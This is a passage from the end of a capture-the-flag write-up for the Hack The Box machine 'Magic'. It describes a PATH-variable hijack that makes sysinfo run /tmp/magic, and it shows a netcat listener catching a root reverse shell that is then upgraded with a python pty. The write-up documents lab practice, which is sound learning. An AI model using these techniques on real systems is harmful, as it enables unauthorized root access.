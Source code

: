 You can find more details [HERE](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

In this way, the goal is achieved, which sysinfo is to execute `/tmp/magic` the `fdisk`

The machine monitors port 9001, and the target machine runs `sysinfo` commands:

```bash
 ~/htb/boxes/Magic >> rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.153] from (UNKNOWN) [10.10.10.185] 52746
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ubuntu:~# id && whoami
id && whoami
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root
root@ubuntu:~# cd /root/
cd /root/
root@ubuntu:/root# ls
ls
info.c  root.txt
root@ubuntu:/root# 
```

# Resources:~$

| Topic | Link|
|-------|-----|
|MySql Backup|[Here](https://support.hostway.com/hc/en-us/articles/360000220190-How-to-backup-and-restore-MySQL-databases-on-Linux)|
|Privilege Escation using Path varibale|[Here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)|

With this, we come to the end of the story of how I owned Magic 😃

Thank you for reading !!!

*I would love to hear about any suggestions or queries.*
